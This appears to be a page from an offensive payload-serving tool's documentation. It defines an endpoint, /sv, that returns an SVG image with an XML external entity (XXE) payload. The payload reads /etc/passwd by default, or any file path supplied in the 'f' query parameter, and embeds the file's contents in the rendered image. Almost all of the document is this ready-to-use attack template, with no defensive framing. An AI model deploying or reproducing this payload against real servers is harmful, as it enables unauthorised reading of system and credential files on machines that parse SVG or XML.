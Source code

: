 ```yaml
---
title: XXE SVG Request Params
description: Returns an SVG payload with XXE to get files
weight: 1
pattern: /sv$
is_final: true
data:
  headers:
    Content-Type: image/svg+xml
  body: |
    {{- $file := "file:///etc/passwd" }}
    {{- if .Request.GetParams.f }}
    {{- $file = (index .Request.GetParams.f 0) }} 
    {{- end -}}
    <?xml version="1.0" standalone="yes"?>
    <!DOCTYPE ernw [ <!ENTITY xxe SYSTEM "{{ $file }}" > ]>
    <svg width="500px" height="100px" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" version="1.1">
    <text font-family="Verdana" font-size="16" x="10" y="40">&xxe;</text>
    </svg>

---
```


### /sv

attempts to get whatever files is supplied via the `f` query parameter
